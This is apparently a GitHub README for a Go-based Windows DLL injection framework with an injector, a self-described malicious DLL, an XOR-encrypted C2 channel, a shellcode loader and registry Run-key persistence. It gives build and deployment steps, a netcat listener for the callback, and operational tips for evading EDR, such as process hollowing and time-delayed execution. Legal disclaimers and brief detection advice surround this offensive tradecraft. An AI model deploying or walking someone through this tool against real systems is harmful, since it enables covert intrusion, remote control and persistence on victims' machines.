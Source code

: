 # DLL Injection Framework 🔒⚙️

DLLusion is a controlled experimental DLL injection framework written in golang for studying Windows process injection techniques, defensive evasion methods, and post-exploitation tradecraft in authorized security research environments.


## 🚧 Active Development Notice

This project is currently under active development and should be considered:
- Experimental - May contain unstable code
- Research-grade - Not production-ready
- Volatile - APIs may change without notice

Current Development Focus:
✓ EDR evasion improvements
✓ Cross-architecture support
✓ Operational security enhancements
✓ Defensive countermeasure research

**WARNING: This project is for educational and research purposes only. Misuse of this software may violate local, national, and international laws. The developers assume no liability and are not responsible for any misuse or damage caused by this tool.**


## ⚠️ Critical Disclaimer ⚠️

This software is provided "as-is" without any guarantees of functionality or safety. 
It demonstrates advanced security concepts related to:
- Process injection techniques
- Remote thread creation
- Defensive evasion methods
- Post-exploitation workflows

NEVER use this tool on systems without explicit written permission from the system owner. 
Unauthorized use may constitute illegal computer intrusion under laws including but not limited to:
- US Computer Fraud and Abuse Act (CFAA)
- UK Computer Misuse Act
- EU Directive 2013/40/EU


## 🔧 Technical Overview
Architecture:
```bash
DLLusion/
├── build/
│   ├── windows/             # Target: Compromised Windows machine
│   │   ├── injected.dll     # Malicious DLL
│   │   └── injector.exe     # Injection tool
│   └── linux/               # Attacker: Linux machine
│       └── controller       # ELF binary (no .exe)
├── src/
│   ├── dll/                 # Windows DLL code
│   ├── injector/            # Windows injector
│   └── controller/          # Controller (cross-platform compatible)
├── scripts/
│   ├── build_dll.sh         # Builds Windows DLL
│   ├── build_injector.sh    # Builds Windows injector
│   ├── build_controller.sh  # Builds Linux ELF or Windows EXE
│   └── generate_shellcode.sh # Generates a .bin shellcode 
├── go.mod 					 # Go module file
└── README.md                # Project documentation
```

### Key Features
1. Process Injector => Advanced DLL injection using NT syscalls
2. Encrypted C2 	=> XOR-encrypted TCP communication
3. Shellcode Loader => In-memory execution with RX permissions
4. Persistence Module => Registry-based autorun installation

### 🛠️ Installation Requirements
```bash

# Development Environment
sudo apt install golang mingw-w64 metasploit-framework

# Security Restrictions
chmod 700 build_*.sh        # Limit script access
ulimit -n 2048              # Prevent resource exhaustion
```

## 🛠️ Usage Instructions (Authorized Testing Only)
Prerequisites:
✔ Written authorization for testing
✔ Isolated lab environment (VM recommended)
✔ Kali Linux or similar security distro
✔ Go 1.20+ and mingw-w64 installed

Step 1: Configuration
```bash

# Clone the repository securely
git clone https://your-repo-url/dllusion.git --config core.hooksPath=.githooks

cd dllusion

```

Step 2: Build Components
```bash

# Generate encrypted shellcode (produces .bin and .key files)
./scripts/generate_shellcode.sh

# Build all components (Linux controller + Windows DLL/Injector)
./scripts/build_controller.sh
./scripts/build_dll.sh
./scripts/build_injector.sh

# Verify outputs
ls -lh build/{linux,windows}/
```

Expected output:

build/
├── linux/
│   ├── controller       # Linux C2 client
│   ├── shellcode.bin    # Encrypted payload
│   └── shellcode.key    # XOR decryption key
└── windows/
    ├── injected.dll     # Malicious DLL
    └── injector.exe     # Injection tool


Step 3: Deployment (Authorized Targets Only)

# On Windows target (Admin shell):
```powershell
.\injector.exe -pid 1337 -dll injected.dll
```
# On Linux attacker machine:
```bash
./build/linux/controller
```

Step 4: Verification
1. Check for callback on your listener:
```bash
   nc -lvnp 443
```

2. Verify DLL injection:
   Process Hacker/Process Explorer on target

3. Confirm persistence:
```powershell
   reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```
Step 5: Cleanup
``` powershell
# On Windows target:
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousApp /f

taskkill /PID 1337 /F

del injected.dll
```

 Operational Security Notes
🔐 Always use:
- VPN tunneling for C2 traffic
- Encrypted payloads (XOR + TLS)
- Process hollowing instead of direct injection where possible
- Time-delayed execution for evasion


## 🚀 Usage Guidelines

### Execution Protocol

1. Obtain written permission from system owner
2. Deploy in isolated network segment
3. Use process explorer to verify PID
4. Execute with explicit authorization:
	```bash
   $ injector.exe -pid 1337 -dll injected.dll
   ```
5. Immediately destroy artifacts post-test

### ⚖️ Legal & Compliance
Required Documentation:
- Signed testing agreement
- Incident response plan
- Data handling policy
- Destruction of artifacts certification

Regulatory Alignment:
This tool helps organizations comply with:
- NIST SP 800-53 (Security Controls)
- PCI DSS v4.0 (Penetration Testing)
- ISO 27001 (Risk Management)
When used properly by authorized professionals.

### 🔒 Security Best Practices
Risk Mitigation Strategies:
1. Network segmentation
2. Host-based firewall rules
3. Process whitelisting
4. Memory protection controls
5. Regular audits

Monitoring Recommendations
1. Sysmon configuration for injection detection
2. ETW-based thread creation monitoring
3. Kernel-mode hook detection


## 📄 License

AGPL-3.0 with Ethical Use Amendment:
This license strictly prohibits:
- Military applications
- Surveillance use
- Human rights violations
- Unauthorized penetration testing

By using this software, you agree to comply with all applicable laws and ethical guidelines.
